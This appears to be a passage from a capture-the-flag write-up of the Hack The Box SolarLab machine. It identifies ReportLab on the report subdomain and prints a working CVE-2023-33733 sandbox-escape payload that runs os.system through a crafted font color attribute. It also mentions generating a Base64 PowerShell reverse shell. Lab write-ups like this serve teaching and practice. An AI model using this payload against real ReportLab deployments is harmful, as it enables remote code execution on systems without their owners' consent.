 **report.solarlab.htb** is using **ReportLab** for geerating PDFs.

## ReportLab RCE

Goolging for ReportLab vulnerability, it seems that there's an [RCE vulnerability](https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897) for it:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-17.png)

[CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733/tree/master) will allow us to exploit RCE.

We can use the following payload to execute commands on the target:

```
<para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('commands_to_execute') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>""", content)
build_document(doc, content)
```

In order to spawn a reverse shell, let's use [revshells.com](https://www.revshells.com/) and generate powershell reverse shell payload encoded with Base64:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/solarlab/image-22.png)
